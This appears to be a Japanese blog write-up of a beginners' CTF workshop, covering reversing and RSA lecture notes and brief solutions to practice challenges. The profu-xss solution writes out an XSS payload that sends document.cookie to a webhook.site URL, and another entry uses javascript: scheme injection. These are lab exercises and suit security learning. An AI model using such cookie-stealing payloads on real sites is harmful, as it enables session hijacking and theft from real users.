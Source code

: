 - バイナリとプログラムの関係
- 表層解析、静的解析、動的解析(今回は動的解析はなし)
- Ghidraを使ったdecompile
- Ghidraの機能: decompile結果を読みやすくする
- [CyberChef](https://gchq.github.io/CyberChef/): バイト列を一文字ずつXORする処理のような、convert系で使える

## Crypto

数学(算数？)の講義という感じでした。RSAって名前は有名な割にちゃんと説明しようとすると結構いろんな知識が必要になるな〜と改めて感じました。

RSAの問題がCryptoでメジャーなことに驚きました。割とシンプルなので式変形コネコネはアイデアが枯渇しそうだけど、最近はどんな問題が出ているのか気になりました。

登場した知識

- RSAの仕組み
- RSAの完全性の証明
- PyCryptoモジュールの使い方
- おすすめVTuber: [kurenaif](https://www.youtube.com/c/kurenaif) 特に初心者と一緒に学ぶRSA入門が良い
- 素因数分解ツール: [Integer factorization calculator](https://www.alpertron.com.ar/ECM.HTM)

# CTF演習

## visitor web 100

webhook.siteを使ってみよう問題でした。webhook.siteのリンクを作って送ると、クローラが踏んでくれてflagが手に入る。

## link-xss web 100

`alert("ctf4b")` を実行するとflagが手に入る。hrefに注入されるので、`javascript:` スキームを使うと良い

## profu-xss web 200

XSSを使ってcookieの中身を読んでねという問題
`<script>location.href="webhook.siteのURL?" + document.cookie</script>` でクローラに踏ませてcookieを窃取すると中にflagがある

## calculation crypto 100

pythonのpowで計算する。以下使ったコード

```python
n1 = (pow(7, 10, 11) + 130 + 44*55) % 11
n2 = pow(4, -1 , 11)
n3 = GCD(150, 135)
n4 = phi(65)
print(n1,n2,n3,n4)
```

## poweRSA crypto 100

暗号化するコードの穴埋めをする。
